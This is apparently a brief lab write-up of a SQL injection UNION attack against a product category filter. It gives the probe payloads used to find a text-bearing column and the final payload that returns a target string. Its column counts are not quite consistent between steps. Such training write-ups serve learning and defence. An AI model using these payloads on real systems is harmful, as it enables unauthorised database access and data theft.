

# Lab: SQL injection UNION attack, finding a column containing text

**Vulnerability:** Product category filter

**Goal:** Make the database retrieve the string `'zCFO89'`

## Steps

1. Try injecting a string into each column position, one at a time, to find which column accepts text:
   ```
   ' UNION SELECT 'a',NULL,NULL,NULL--   → internal server error (wrong column)
   ' UNION SELECT NULL,'a',NULL--        → works, string is displayed
   ```
2. Replace the placeholder with the required string:
   ```
   ' UNION SELECT NULL,'zCFO89',NULL--
   ```

## Result

The string was reflected on the page.



✅ **Lab solved**
